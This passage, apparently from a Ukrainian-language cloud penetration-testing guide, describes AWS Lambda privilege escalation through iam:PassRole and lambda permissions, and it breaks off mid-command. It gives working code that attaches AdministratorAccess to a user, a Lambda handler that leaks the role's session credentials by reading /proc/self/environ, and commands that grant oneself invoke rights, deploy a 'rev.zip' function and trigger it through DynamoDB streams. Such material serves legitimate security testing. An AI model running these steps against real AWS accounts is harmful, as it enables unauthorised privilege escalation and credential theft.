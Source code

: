 ```python
response = client.attach_user_policy(
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
Також можливо витікання облікових даних ролі лямбди без необхідності зовнішнього підключення. Це буде корисно для **ізольованих мережею Лямбд**, які використовуються для внутрішніх завдань. Якщо існують невідомі групи безпеки, які фільтрують ваші зворотні оболонки, цей шматок коду дозволить вам безпосередньо витікати облікові дані як вивід лямбди.
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**Потенційний вплив:** Пряме підвищення привілеїв до вказаної довільної службової ролі лямбди.

{% hint style="danger" %}
Зверніть увагу, що навіть якщо це може виглядати цікаво **`lambda:InvokeAsync`**, **не дозволяє самостійно виконувати `aws lambda invoke-async`**, вам також потрібно `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Як і в попередньому сценарії, ви можете **надати собі дозвіл на `lambda:InvokeFunction`**, якщо у вас є дозвіл **`lambda:AddPermission`**
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**Потенційний вплив:** Пряме підвищення привілеїв до вказаної довільної службової ролі лямбди.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Користувачі з дозволами **`iam:PassRole`, `lambda:CreateFunction` та `lambda:CreateEventSourceMapping`** (і, можливо, `dynamodb:PutItem` та `dynamodb:CreateTable`) можуть опосередковано **підвищувати привілеї**, навіть без `lambda:InvokeFunction`.\
Вони можуть створити **функцію Lambda зо зловмисним кодом та призначити їй існуючу роль IAM**.

Замість прямого виклику Лямбди, користувач налаштовує або використовує існуючу таблицю DynamoDB, пов'язуючи її з Лямбдою через відображення джерела подій. Ця настройка забезпечує автоматичне **спрацювання функції Лямбда при введенні нового елементу** в таблицю, або користувачем, або іншим процесом, тим самим опосередковано викликаючи функцію Лямбда та виконуючи код з дозволами переданої ролі IAM.
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
Якщо DynamoDB вже активний в середовищі AWS, користувачу лише **потрібно встановити відображення джерела подій** для функції Lambda. Однак, якщо DynamoDB не використовується, користувач повинен **створити нову таблицю** з увімкненим потоком даних:
```bash
aws dynamodb create-table --table-name my_table \
```